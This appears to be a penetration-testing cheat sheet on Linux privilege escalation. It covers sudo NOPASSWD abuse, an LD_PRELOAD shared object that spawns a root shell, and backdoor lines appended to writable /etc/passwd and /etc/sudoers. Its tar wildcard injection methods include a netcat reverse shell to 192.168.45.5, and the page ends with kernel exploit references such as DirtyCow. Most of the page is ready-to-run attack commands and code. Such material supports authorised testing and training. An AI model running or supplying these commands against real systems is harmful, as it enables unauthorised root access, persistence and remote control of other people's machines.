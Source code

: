 # Linux/Unix

## Enumerate Users

```bash
whoami
id
cat /etc/passwd
```

## Services/Processes Running

```
ps aux
ps aux | grep root
```

## SUDO

Tool: [Sudo Exploitation](https://github.com/TH3xACE/SUDO\_KILLER)

#### NOPASSWD

Sudo configuration might allow a user to execute some command with another user's privileges without knowing the password.

```bash
$ sudo -l

User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/vim
```

In this example the user `demo` can run `vim` as `root`, it is now trivial to get a shell by adding an ssh key into the root directory or by calling `sh`.

```bash
sudo vim -c '!sh'
sudo -u root vim -c '!sh'
```

#### LD\_PRELOAD and NOPASSWD

If `LD_PRELOAD` is explicitly defined in the sudoers file

```bash
Defaults        env_keep += LD_PRELOAD
```

Compile the following shared object using the C code below with `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```

Execute any binary with the LD\_PRELOAD to spawn a shell : `sudo LD_PRELOAD=<full_path_to_so_file> <program>`, e.g: `sudo LD_PRELOAD=/tmp/shell.so find`

## GTFOBins

[GTFOBins](https://gtfobins.github.io/) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

The project collects legitimate functions of Unix binaries that can be abused to break out restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and facilitate the other post-exploitation tasks.

## Writable files

List world writable files on the system.

```bash
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
find / -perm -2 -type f 2>/dev/null
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```

### Writable /etc/passwd

First generate a password with one of the following commands.

```bash
openssl passwd -1 -salt hacker hacker
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

Then add the user `hacker` and add the generated password.

```bash
hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
```

E.g: `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`

You can now use the `su` command with `hacker:hacker`

Alternatively you can use the following lines to add a dummy user without a password.\
WARNING: you might degrade the current security of the machine.

```bash
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```

NOTE: In BSD platforms `/etc/passwd` is located at `/etc/pwd.db` and `/etc/master.passwd`, also the `/etc/shadow` is renamed to `/etc/spwd.db`.

### Writable /etc/sudoers

```bash
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers

# use SUDO without password
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers
```

## Tar Wildcard

#### **Tar Wildcard Injection (1st method)**

```bash
echo "mkfifo /tmp/lhennp; nc 192.168.45.5 443 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
tar cf archive.tar * 
```

#### **Tar Wildcard Injection (2st method)**

```bash
echo 'echo "ignite ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > demo.sh
echo "" > "--checkpoint-action=exec=sh demo.sh"
echo "" > --checkpoint=1
tar cf archive.tar *

sudo -l
sudo bash
whoami
```

#### Tar Wildcard Injection (3rd method)

```bash
echo "chmod u+s /usr/bin/find" > test.sh
echo "" > "--checkpoint-action=exec=sh test.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
ls -al /usr/bin/find
find f1 -exec "whoami" \;
root
find f1 -exec "/bin/sh" \;
id
whoami
```

#### Resources

{% embed url="https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/" %}

## Kernel Exploits

The following exploits are known to work well, search for more exploits with `searchsploit -w linux kernel centos`.

Another way to find a kernel exploit is to get the specific kernel version and linux distro of the machine by doing

```
uname -a
cat /etc/issue
cat /etc/*-release
cat /proc/version
lscpu
```

Copy the kernel version and distribution, and search for it in google or in [https://www.exploit-db.com/](https://www.exploit-db.com/).

#### CVE-2022-0847 (DirtyPipe)

Linux Privilege Escalation - Linux Kernel 5.8 < 5.16.11

```bash
https://www.exploit-db.com/exploits/50808
```

#### CVE-2016-5195 (DirtyCow)

Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8

```bash
# make dirtycow stable
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c
```

#### CVE-2010-3904 (RDS)

Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8

```
https://www.exploit-db.com/exploits/15285/
```

#### CVE-2010-4258 (Full Nelson)

Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04)

```
https://www.exploit-db.com/exploits/15704/
```

#### CVE-2012-0056 (Mempodipper)

Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)

```bash
https://www.exploit-db.com/exploits/18411
```

##

## Automated Resources

{% embed url="https://github.com/rebootuser/LinEnum.git" %}

{% embed url="https://github.com/sleventyeleven/linuxprivchecker" %}

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS" %}

